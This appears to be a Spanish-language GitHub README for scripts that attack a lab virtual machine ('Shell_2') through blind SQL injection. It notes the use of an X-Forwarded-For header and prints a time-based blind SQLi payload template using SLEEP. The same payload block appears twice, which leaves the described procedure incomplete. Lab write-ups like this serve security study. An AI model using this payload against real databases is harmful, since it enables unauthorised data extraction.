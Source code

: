 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

    - El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
    - Uso de encabezado `X-Forwarded-For`
    

## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa con
```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
Procedimos a 
```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado que pueda causar impactos negativos. El propósito es y sólo es con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
